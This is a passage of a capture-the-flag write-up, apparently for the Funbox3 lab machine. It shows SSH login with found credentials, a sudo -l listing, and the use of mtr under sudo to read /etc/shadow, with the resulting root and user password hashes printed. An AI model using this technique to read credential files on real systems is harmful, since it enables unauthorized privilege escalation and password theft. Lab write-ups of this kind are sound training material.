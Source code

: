 I head over to the **/home/tony** directory and find this file waiting:

```
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
```

And viewing it:

```bash
ssh: <REDACTED>
gym/admin: <REDACTED>
/store: admin@admin.com <REDACTED>
```

<br>

## System Enumeration (tony)

I ssh over as tony using the password we just found:

```bash
tony@funbox3:~$ whoami
tony
tony@funbox3:~$ hostname
funbox3
```

Checking `sudo -l`:

```bash
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Well that's certain a lot of things we can do as root.

Most of the commands don't exist after looking for them.

After playing around with these you can use **/usr/bin/mtr** to read files you aren't supposed to be able to access:

`sudo /usr/bin/mtr --raw -F "/etc/shadow"`

```bash
/usr/bin/mtr: Failed to resolve host: root:$6$vhQCRnZ7cB8CmPHi$FGwOfBLodnjYboCNgkE.e5fN7J3qEdXahyKIrSR1lt3eeVIdHBfUvl8Dow4/CYLAAk.7YKVDOqKSG2pLLnHUq/:18565:0:99999:7:::: Name or service not known
/usr/bin/mtr: Failed to resolve host: tony:$6$3CcVDtP8rpQ/g1AY$tpRzq31JEsdsbEi4AD7wG5XfgrEwsr0j4vHqSQmkTpYvx.yHrB/xv3pv8Xlko/5P4vzW4v8BC3tG/YPtbbzVN0:18473:0:99999:7:::: Name or service not known
```
